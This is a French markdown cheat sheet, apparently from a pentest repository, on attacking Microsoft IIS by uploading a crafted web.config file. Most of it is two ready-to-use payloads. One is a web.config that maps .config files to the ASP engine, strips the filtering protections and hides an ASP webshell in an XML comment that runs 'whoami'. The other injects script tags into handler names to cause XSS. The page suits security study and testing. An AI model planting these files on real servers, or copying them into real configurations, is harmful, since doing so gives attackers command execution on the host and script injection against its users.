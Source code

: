 # IIS : web.config

<img title="" src="logo.png" alt="" height="150">

**Facteur de risque** : RCE via ASP webshell, XSS

**Nom du fichier** : `web.config`

**Description** :

Les fichiers `web.config` sont des fichiers XML, qui contiennent les **paramètres de sécurités de Microsoft IIS Administration** (similaire au fichier `.htaccess` d'Apache). Ils permettent de personnaliser le site web ou un répertoire spécifique du site web.

Des attaques sont possibles si le réecriture ou la création du fichier `web.config` sont effectués par une personne mal intentionnée.

Toute modification du fichier `web.config` nécessite le **redémarrage** de Microsoft IIS Administration.

## Sommaire

- Remote Code Execution (RCE) via ASP webshell

- Cross-Site Scripting (XSS)

## Remote Code Execution (RCE) via ASP webshell

### Pré-requis

- IIS7 ou supérieur (voire IIS6 dans certaines conditions)

- Le serveur doit supporter ASP

- Le fichier doit être accesible

### Exploitation

Le code suivant permet d'exécuter la commande `whoami` :
**RCE/web.config**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!--
<%
Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-")
%>
-->
```

Du code ASP est ajouté entre `<%` et `%>`, le tout placé dans un commentaire pour que fichier reste valide en XML.

## Cross-Site Scripting (XSS)

### Pré-requis

- IIS7 ou supérieur

- Le serveur doit supporter ASP

### Exploitation

En téléversant un fichier `web.config` qui contient un "handler name" non valide une XSS est possible :

**XSS/web.config**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers>
         <!-- XSS by using *.config -->
         <add name="web_config_xss<script>alert('xss1')</script>" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="fooo" resourceType="Unspecified" requireAccess="None" preCondition="bitness64" />
         <!-- XSS by using *.test -->
         <add name="test_xss<script>alert('xss2')</script>" path="*.test" verb="*"  />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   <httpErrors existingResponse="Replace" errorMode="Detailed" />
   </system.webServer>
</configuration>
```

## References

Upload a web.config File for Fun & Profit : https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/

Uploading web.config for Fun & Profit 2 : https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

RCE by uploading a web.config : https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

## Todo
